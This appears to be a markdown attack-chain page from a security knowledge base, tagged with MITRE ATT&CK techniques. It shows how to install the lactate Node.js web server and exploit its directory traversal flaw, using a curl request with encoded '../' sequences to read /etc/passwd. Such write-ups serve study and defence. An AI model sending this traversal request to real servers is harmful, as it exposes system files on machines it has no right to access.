

# Directory Traversal in Lactate Node.js Web Server for Arbitrary File Access

Multi-stage attack chain demonstrating exploitation of a directory traversal vulnerability in the lactate static web server to access sensitive files like /etc/passwd.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/npm]]
- [[tools/lactate]]
- [[tools/cURL]]

### Target Environment

- Linux-based host (e.g., Ubuntu)
- Node.js installed
- Port 8081 available
- Network access to the server IP

### Initial Access Requirements

- Local or remote shell access to install and run the server
- No prior credentials needed for exploitation, as it's unauthenticated
- Firewall allowing inbound connections on port 8081

## Detailed Attack Procedures

### Step 1: Setup Vulnerable Server
procedure: [[procedures/Install-and-Setup-Lactate-Server]]

**Objective**: Install the vulnerable lactate package and set the web root to demonstrate the attack surface.

**Instructions**: Use [[commands/npm-install-lactate]] to install globally, then [[commands/cd-root-directory]] to set the serving directory:

```bash
npm install -g lactate
cd /root
```

**Expected Output**: Confirmation of installation and directory change in shell prompt.

**Success Indicators**:
- Lactate v0.13.12 installed
- Current directory is /root

### Step 2: Start the Server
procedure: [[procedures/Start-Vulnerable-Lactate-Server]]

**Objective**: Launch the lactate server to expose the vulnerable endpoint.

**Instructions**: Execute [[commands/lactate-start-server]] to bind on port 8081:

```bash
lactate -p 8081
```

**Expected Output**: Server message like "Listening on port 8081".

**Success Indicators**:
- Server process running
- Accessible via http://<server-IP>:8081

### Step 3: Exploit Path Traversal
procedure: [[procedures/Exploit-Path-Traversal-with-cURL]]

**Objective**: Send a crafted GET request to traverse directories and read sensitive files.

**Instructions**: Use [[commands/curl-path-traversal]] with URL-encoded '../' to access /etc/passwd:

```bash
curl "http://<server-IP>:8081/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

**Expected Output**: Contents of /etc/passwd, e.g., "root:x:0:0:root:/root:/bin/bash...".

**Success Indicators**:
- Arbitrary file contents retrieved
- No 404 or access denied errors

## Attack Chain Summary

### Key Achievements

1. Successful installation and setup of vulnerable lactate server
2. Exposure of the path traversal flaw via unauthenticated GET requests
3. Retrieval of sensitive system files like /etc/passwd, enabling further reconnaissance or data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
